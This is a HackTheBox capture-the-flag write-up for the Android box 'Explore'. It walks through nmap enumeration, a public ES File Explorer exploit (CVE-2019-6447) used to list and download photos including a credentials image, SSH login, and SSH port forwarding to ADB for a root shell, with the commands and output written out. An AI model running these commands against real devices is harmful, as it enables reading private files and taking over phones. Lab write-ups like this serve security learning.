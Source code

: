 # Explore - Android (Easy)

## Summary
This is an Android box on HackTheBox (HTB). It is currently marked as 'Easy' and aims to exploit a vulnerability in ES File Explorer. This allowed access to files off a mobile and subsequent access  to files/photos, one allowing me to grab a password scribbled on a note, saved as an image. I acted on this by SSH'ing as the user and thereby access the Android Debug (ADB) service, which allowed me to escalate permissions to gain root level access. 

## Enumeration

### Nmap Scan(s)

```
Nmap -sV Scan

nmap -sV 10.10.10.247 -vv            
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-21 03:07 EDT

Not shown: 998 closed ports
Reason: 998 conn-refused
PORT     STATE    SERVICE REASON      VERSION
2222/tcp open     ssh     syn-ack     (protocol 2.0)
5555/tcp filtered freeciv no-response
1 service unrecognized despite returning data

Scanning All Ports

nmap -p- 10.10.10.247 -vv
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-21 03:27 EDT
Initiating Ping Scan at 03:27
Scanning 10.10.10.247 [2 ports]

Scanned at 2021-10-21 03:27:07 EDT for 50s
Not shown: 65530 closed ports
Reason: 65530 conn-refused
PORT      STATE    SERVICE      REASON
2222/tcp  open     EtherNetIP-1 syn-ack - SSH
5555/tcp  filtered freeciv      no-response - ADB. Android Debug Bridge
36135/tcp open     unknown      syn-ack
42135/tcp open     unknown      syn-ack
59777/tcp open     unknown      syn-ack - ES File Explorer
``` 

### Exploring ADB as an option - will be coming back to ADB

```
Android Debug Bridge version 1.0.41
Version 28.0.2-debian
Installed as /usr/lib/android-sdk/platform-tools/ad
```

[ES File Explorer 4.1.9.7.4 - Arbitrary File Read](https://www.exploit-db.com/exploits/50070)

I ran the following Python script to list 
```
python3 50070.py listPics 10.10.10.247 - list images present

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : concept.jpg
time : 4/21/21 02:38:08 AM
location : /storage/emulated/0/DCIM/concept.jpg
size : 135.33 KB (138,573 Bytes)

name : anc.png
time : 4/21/21 02:37:50 AM
location : /storage/emulated/0/DCIM/anc.png
size : 6.24 KB (6,392 Bytes)

name : creds.jpg - **seemed interesting**
time : 4/21/21 02:38:18 AM
location : /storage/emulated/0/DCIM/creds.jpg
size : 1.14 MB (1,200,401 Bytes)

name : 224_anc.png
time : 4/21/21 02:37:21 AM
location : /storage/emulated/0/DCIM/224_anc.png
size : 124.88 KB (127,876 Bytes)
```

```

python3 50070.py getFile 10.10.10.247 /storage/emulated/0/DCIM/creds.jpg - download file to local machine

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

[+] Downloading file...
[+] Done. Saved as `out.dat`.
```

![Kristi's Password](Images/Kristi's_Password.png)

## Connecting to SSH

After SSH'ing to Kristi's account, I was able view the `user.txt` flag in the `/sdcard` directory.

![SSH Connection](Images/SSH_Connection.png)
![user.txt](Images/user.txt.png)
## PrivEsc to gain root

I re-ran SSH on Kristi's account on port 2222 to set up port forwarding 
![Port Frowarding](Images/Port_Forwarding.png)
```
ssh kristi@10.10.10.247 -p 2222 -L 5555:localhost:5555   
```

This allows me to connect to ADB, which offers a shell which can be leveraged to in turn, get the `root.txt` flag in the `/data` directory

![ADB Connection](Images/ADB_Connection.png)

![ADB Connection 2](Images/ADB_Connection_2.png)

![root.txt](Images/root.txt.png)
